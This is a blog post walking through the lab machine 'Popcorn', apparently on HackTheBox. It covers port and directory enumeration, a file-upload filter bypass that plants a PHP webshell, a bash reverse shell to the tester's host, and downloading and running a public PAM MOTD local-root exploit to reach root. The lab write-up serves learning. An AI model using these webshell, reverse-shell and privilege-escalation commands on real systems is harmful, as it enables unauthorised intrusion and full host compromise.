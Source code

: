 ```yaml
---
layout: post
title:  "Popcorn"
date:   2023-11-02 22:55:30 -0400
categories: jekyll update
---
```


Popcorn

<img
  src="/assets/popcorrn.png"
  alt="featured image"
  class="featured-image-post"
/>

## nmap
```
└─# nmap -p- 10.10.10.6     
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-02 18:53 EDT
Nmap scan report for 10.10.10.6
Host is up (0.052s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 36.97 seconds
```

```
└─# nmap -p 22,80 -sC -sV 10.10.10.6           
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-02 18:56 EDT
Nmap scan report for 10.10.10.6
Host is up (0.048s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3ec81b15211550ec6e63bcc56b807b38 (DSA)
|_  2048 aa1f7921b842f48a38bdb805ef1a074d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.11 seconds
```

## gobuster
```
└─# gobuster dir -u http://10.10.10.6 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --timeout 20s 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.6
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 20s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 177]
/test                 (Status: 200) [Size: 47016]
/torrent              (Status: 301) [Size: 310] [--> http://10.10.10.6/torrent/]
/rename               (Status: 301) [Size: 309] [--> http://10.10.10.6/rename/]
Progress: 28643 / 220561 (12.99%)[ERROR] Get "http://10.10.10.6/AbleFtp": context
```

### 10.10.10.6:80
<img
  src="/assets/popcorn/Pasted image 20231102185842.png"
  alt="featured image"
  class="featured-image-post"
/>

### 10.10.10.6/test
<img
  src="/assets/popcorn/Pasted image 20231102214854.png"
  alt="featured image"
  class="featured-image-post"
/>

### 10.10.10.6/rename
<img
  src="/assets/popcorn/Pasted image 20231102215443.png"
  alt="featured image"
  class="featured-image-post"
/>
### 10.10.10.6/torrent
<img
  src="/assets/popcorn/Pasted image 20231102215613.png"
  alt="featured image"
  class="featured-image-post"
/>

<img
  src="/assets/popcorn/Pasted image 20231102215710.png"
  alt="featured image"
  class="featured-image-post"
/>

After registering an account, I browsed around and found an upload page. I downloaded a legit torrent file and uploaded it.
<img
  src="/assets/popcorn/Pasted image 20231102222727.png"
  alt="featured image"
  class="featured-image-post"
/>
<img
  src="/assets/popcorn/Pasted image 20231102222630.png"
  alt="featured image"
  class="featured-image-post"
/>

After uploading, there is a button to upload a screenshot.
/>
<img
  src="/assets/popcorn/Pasted image 20231102222830.png"
  alt="featured image"
  class="featured-image-post"
/>
/>
<img
  src="/assets/popcorn/Pasted image 20231102222908.png"
  alt="featured image"
  class="featured-image-post"
/>

I chose a random screenshot, this kali  logo and uploaded it.
<img
  src="/assets/popcorn/Pasted image 20231102224231.png"
  alt="featured image"
  class="featured-image-post"
/>

I captured the request in Burp and changed the extension to php and the content to a php webshell. At first I had to play around with Repeater to see which filters were in place, but this way submitted without errors.
<img
  src="/assets/popcorn/Pasted image 20231102224207.png"
  alt="featured image"
  class="featured-image-post"
/>

I refreshed and there is the screenshot.
<img
  src="/assets/popcorn/Pasted image 20231102224533.png"
  alt="featured image"
  class="featured-image-post"
/>


After some guessing I found the image at `/torrent/upload`
<img
  src="/assets/popcorn/Pasted image 20231102225457.png"
  alt="featured image"
  class="featured-image-post"
/>
<img
  src="/assets/popcorn/Pasted image 20231102225543.png"
  alt="featured image"
  class="featured-image-post"
/>
I test out execution with a simple`id` command with curl and its successful:
```
┌──(root💀kali)-[/home/spacemoth/machines/popcorn]
└─# curl http://10.10.10.6/torrent/upload/2becb0265247e56217dcac4f5ff7308699ee0d3e.php?cmd=id      
uid=33(www-data) gid=33(www-data) groups=33(www-data)
Warning: Binary output can mess up your terminal. Use "--output -" to tell 
Warning: curl to output it to your terminal anyway, or consider "--output 
Warning: <FILE>" to save to a file.
```

## Shell

I will start netcat and use this line to get a reverse shell:
```
curl http://10.10.10.6/torrent/upload/2becb0265247e56217dcac4f5ff7308699ee0d3e.php --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.24/443 0>&1'"
```

```
└─$ nc -lnvp 443 
listening on [any] 443 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.6] 36235
bash: no job control in this shell                                                                                                               
www-data@popcorn:/var/www/torrent/upload$
```

I got the shell and now I will upgrade:
```
python -c 'import pty;pty.spawn("bash")'
```

Obtain user flag:
```
www-data@popcorn:/home$ ls 
ls
george
www-data@popcorn:/home$ cat george
cat george
cat: george: Is a directory
www-data@popcorn:/home$ cd george
cd george
www-data@popcorn:/home/george$ ls
ls
torrenthoster.zip  user.txt
www-data@popcorn:/home/george$ cat user.txt                                      cat user.txt                                                            
3b0************************
```

## PrivEsc

I found `motd.legal-displayed` and knowing this file can lead to code execution I found this exploit after some googling, https://www.exploit-db.com/exploits/14339. I downloaded the exploit and hosted it on my machine:
```
└─$ python2.7 -m SimpleHTTPServer 1337                                  
Serving HTTP on 0.0.0.0 port 1337 ...
```

On victim machine I used `wget` to download it:
```
www-data@popcorn:/tmp$ wget http://10.10.14.24:1337/14339.sh 
wget http://10.10.14.24:1337/14339.sh 
--2023-11-03 05:15:40--  http://10.10.14.24:1337/14339.sh
Connecting to 10.10.14.24:1337... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3042 (3.0K) [text/x-sh]
Saving to: `14339.sh'

100%[======================================>] 3,042       --.-K/s   in 0s      

2023-11-03 05:15:40 (124 MB/s) - `14339.sh' saved [3042/3042]
```

I then chmod the file and ran it, which lead to root:
```
www-data@popcorn:/tmp$ chmod +x 14339.sh
chmod +x 14339.sh
www-data@popcorn:/tmp$ ./14339.sh
./14339.sh
[*] Ubuntu PAM MOTD local root
[*] SSH key set up
[*] spawn ssh
[+] owned: /etc/passwd
[*] spawn ssh
[+] owned: /etc/shadow
[*] SSH key removed
[+] Success! Use password toor to get root
Password: toor

root@popcorn:/tmp# whoami
whoami
root
```

##### Root Flag
```
root@popcorn:/# cd root
cd root
root@popcorn:~# ls
ls
root.txt
root@popcorn:~# cat root.txt
cat root.txt
850*****************************
```
